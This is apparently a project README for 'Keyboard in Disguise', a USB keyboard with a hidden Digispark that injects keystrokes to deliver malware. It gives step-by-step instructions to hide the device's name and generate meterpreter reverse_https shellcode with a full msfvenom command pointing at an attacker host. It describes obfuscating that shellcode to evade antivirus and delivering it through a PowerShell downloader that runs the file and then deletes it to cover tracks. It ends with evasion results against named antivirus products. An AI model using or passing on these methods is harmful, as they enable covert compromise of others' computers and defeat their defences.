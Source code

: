 # KiB (Keyboard in Disguise)

## Parts used
1. Standard usb keyboard   
![alt text](resources/keyboard_new.png)

2. Usb hub with FE1.1s chip  
![alt text](resources/usb_hub.jpg)

3. DigiSpark with Arduino ATtiny85 microprocessor  
![alt text](resources/digispark.png)

We want to use Digispark to delivery the payload while still keeping the keyboard functional, so a usb hub is needed.
The internal keyboard PCB is connected to the usb hub, and digispark is also connected to up. The upstream port of the usb hub is what will be conneted to the computer.
![alt text](resources/circuit_blueprint.png)

The internal connections and layout of the completed keyboard is as follows:
![alt text](resources/keyboard_internal.png)

## Digispark bootloader

By default, the Digispark have a 5 second programming delay once plugged in for uploading new code. This has caused issues for Windows to fail to recognise Digispark as a USB device when it is conected to the hub with another keyboard, a new bootloader is needed to remove the delay, removing the delay also allows the attack to be carred out faster.

The bootloader can be found [here](https://github.com/micronucleus/micronucleus/tree/v1.11/upgrade/releases) under the name `micronucleus-1.11-entry-jumper-pb0-upgrade.hex`, the program to fash the bootloader can be found [here](https://github.com/digistump/DigistumpArduino/releases/download/1.6.5a/micronucleus-2.0a4-win.zip).

To flash the firmware, unzip the micronucleus folder, in a command prompt, enter the full path of micronucleus.exe, followed by the full path of the bootloader hex file, then plug in Digispark to the the computer.

Ater the bootloader is flashed, the delay should be removed. To program digispark after flashing to the new bootloader, bridge the GND and P0 pins on Digispark with a conductive wire when uploading new code.

## Hiding Digispark's name
 When a USB device is first initialised, a notification will show up in windows with the name of the device, to change the name of Digispark to better hide the device, navigate to the Arduino config file ```libraries\DigisparkKeyboard\usbconfig.h```, the name can be changed accordinly.   
![alt text](resources/digispark_namechange.png)   

## Writing a custom payload
Most antiviruses scans for known signatures to detect viruses/malwares, in order to sucessfully deliver the paylaod to the victim machine, which means most of the commonly used payloads and obfuscation method will not work. The singature of the payload must not be in any antivirus databases, so a completely new custom payload will have to be created.

First we can use msfvenom to generate a shellcode, this will be the basis where the custom payload will be built on. We chose to use reverse https encoded using the shikata_ga_nai encoder and output in C, this will make the shellcode harder to detect. 
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.10 LPORT=443 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -e x86/shikata_ga_nai -i 8 -f c > shell.c
```
![alt text](resources/base_shellcode.png)   

Just the shellcode itself will not evade any antivirus, so next we will need further obfuscate the shell code. In visual studio, create a new C project, we will mainly be using the ```memcpy``` function. The ```memcpy``` function allows flipping of bytes, replacing a specified number of bytes in the target ```char``` with a second ```char```. The syntax of ```memcpy``` is as follows:
```
memcpy(<target char> + <offset>, <secondary char>, <length of secondary char>)
```
![alt text](resources/memcpy_demo.png)   
The raw shellcode can be found under ```final/shell.c```.   


Using the function, we can replace the geninue bytes with dummy bytes, and store the geninue bytes in another string, when the executeable is run, the geninue shellcode will then be assembled. The random bytes can be generated using random.org. Windows defender will be our primary antivrus solution to evade, since it's the most common antivirus on a windows computer. Windows defender has gotten very good at regonise singature of the payloads, so more ```memcpy``` functions will have to be used to evade detection.   

In the final payload, the source code can be found under ```final/payload_source.cpp```, the shellcode is broken into 4 parts, each with their own scrambled bytes, and with many extra bytes and strings thrown in between. Each parts are individually assembled and the 4 parts are pieced together at the end. Afer obfuscation is done, build the source code into a ```.exe``` file.

Unfortunatly, since windows recently added meterpreter singatures (the toolset that we're using to gain control of the victim machine), once the shellcode is reassembled, windows defender can still detect the signature, so the success rate of the payload is not very high, although we did managed to gain control a few times. Nevertheless, being able to be downloaded undetected by most antivirus solutions has proved that the evasion method works. We believe that using similar evasion method to generate a ```.dll``` file, and run the payload in memory will be able to open a reverse shell undetected. More antivirus tests can be found at the following sections.   

## Delivering the payload
Kali will be our attacking machine since it offers a wide range of tools, and we will be using the meterpreter framework to control the victim machine.   

To deliver the payload, we chose to use a 2-stage payload, with the first stage being a powershell script ```.ps1``` file, this will give us better control of the attack steps, and reduce the length of commands needed to be entered to the victim's computer.   

The first stage of the payload can be foun under ```final/1.ps1```, the script downloads the ```.exe``` file that we made earlier and run it, which can be found under ```final/0.exe```. the payload then deletes the ```.exe``` file after it has be run as to not leave any evidece.
![alt text](resources/powershell_script.png)   

We also need to migrate the process once the meterpreter shell opens so that the payload can be deleted by the powershell script, this can be done automatically using a ```.rc``` script in Kali. The script can be found under ```final/auto_migrate.rc```. To simplify the steps of preparing the reverse handlder in Kali, another ```.rc``` script can be used, which can be found under ```final/kid_msf_auto.rc```, this script also calls the auto migrate script so both steps can be done at once.
![alt text](resources/msf_auto_script.png)   


## Antivirus evasion
**AVG:**  AVG antivirus can be evaded as per the demo video.   
  
**Avast:**  Avast can be partially evaded, if webshield is turned off to allow downloading of local network files(Avast blocks downloading files local network by default, for this project, we hosted the files on the local network for easier access and management, however, if this is a real attack, the payload would be hosted on a remote server and the webshield would not block the download), with fast migration, the meterpreter shell stayed open for a few mimutes before being detected.   
![alt text](resources/avast_evasion.png)   

 
**Windows Defender:**  in some cases, we were able to evade it, although it is not consistent, most of the time the payload can be downloaded but a meterpreter session cannot be opened without being detected. 
![alt text](resources/wdefender_evasion.png)   


**Malwarebytes:**  Malwarebytes can be evaded.
![alt text](resources/malwarebytes_evasion.png)   


**Kaspersky Security Cloud:**  The payload can be downloaded without being detected, but a meterpreter session cannot be opened without being detected.   

**Bitdefender Antivirus Free Edition:**  We were not able to evade Bitdefender Antivirus Free Edition.   

We were not able to test Mcafee, Norton because credit card information is required to start the free trail.


[DigiKeyboard reference](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboard.h)
|
[DigiMouse reference](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkMouse/DigiMouse.h) 
(only one can be used at a time)

[Payload reference](https://github.com/swisskyrepo/PayloadsAllTheThings)
